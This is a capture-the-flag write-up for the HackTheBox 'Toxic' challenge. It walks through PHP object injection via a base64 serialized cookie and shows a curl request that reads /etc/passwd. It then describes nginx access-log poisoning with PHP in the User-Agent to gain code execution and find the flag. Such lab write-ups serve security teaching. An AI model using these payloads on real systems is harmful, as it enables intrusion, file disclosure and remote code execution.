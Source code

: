 ```yaml
---
title: Toxic HackTheBox Challenge
published: ture
tags: [htb, php, logfile poisoning, ctf, include, base64, serialize, unserialize, cookie, ]
---
```


# Toxic

given a website with following code: 
```php 
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'TESTITEST', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );

    

} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

If no cookie is set it serializes the current page object and saves it base64 encoded as a cookie. However if the request already contains a cookie it tries to unserialize it which could be exploited. 
The serialized cookie looks like the following: 
```
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}%
```

> note that all the `s:` represents the size of all the following strings and should be modified if the strings changes

The `PageModel` has an attribute `file` which is `include`d.
```php
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

So if we can modify the `file` attribute which gets unserialized get have a chance that this file gets presented. 

As a little proof of concept we can try to load the `/etc/passwd` file. 
Therefore we have to modify the serialized object like the following: 
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}%
```

> note the size again

Now we have to base64 encode this object again. 

```
echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}%' | base64
```

Now send a request to the site with the crafted cookie:

```bash
curl localhost:1337/index.php --cookie "PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30lCg=="
```

We get the `passwd` file back :D

The problem now is, that the flag gets randomized like the following:

```bash
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

So it is impossible to predict the file name. Also it is not possible to get the contents of the directory with the `include` function. 

But whats possible instead is to poison the logfile and display it. Since the `include` function tries to display all files like php files and tries to execute php code in it we can simply make a request with php code as user agent and the code gets written to the log file. 
To keep it simple I just execute a `ls /` to print all contents of the root directory. 
![[Toxic-Burp-Request.png]]

We also know where the log file is because of the provided `nginx.conf`
When we now modify the object to load the logfile `/var/log/nginx/access.log`
```
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}%' | base64
```
It includes the logfile and executes the code we send in the step before. 

We get presented the acutal filename of the flag and can read the flag again with the modified object which gets unserialized. 
